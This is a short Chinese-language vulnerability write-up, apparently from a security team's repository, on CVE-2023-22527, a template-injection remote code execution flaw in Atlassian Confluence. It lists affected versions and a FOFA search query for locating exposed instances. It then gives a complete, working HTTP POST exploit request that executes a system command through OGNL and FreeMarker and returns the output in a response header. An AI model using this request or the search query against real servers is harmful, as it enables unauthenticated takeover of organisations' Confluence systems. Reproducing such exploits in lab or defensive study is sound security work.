

# CVE-2023-22527

> **Create by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Atlassian Confluence远程代码执行漏洞

## 0x01 漏洞概述

Atlassian Confluence是一款由Atlassian开发的企业团队协作和知识管理软件，提供了一个集中化的平台，用于创建、组织和共享团队的文档、知识库、项目计划和协作内容。Atlassian Confluence Data Center and Server存在安全漏洞，该漏洞源于存在模板注入漏洞，允许未经身份验证的攻击者在受影响的实例上实现远程代码执行。

## 0x02 漏洞影响版本

```
8.0.x，8.1.x，8.2.x，8.3.x，8.4.x
8.5.0 ≤ version ≤ 8.5.3
```

## 0x03 FOFA语法

```
app="Atlassian-Confluence"
```

## 0x04 漏洞复现



```
POST /template/aui/text-inline.vm HTTP/1.1
Host: x.x.x.x
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 285

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))
```

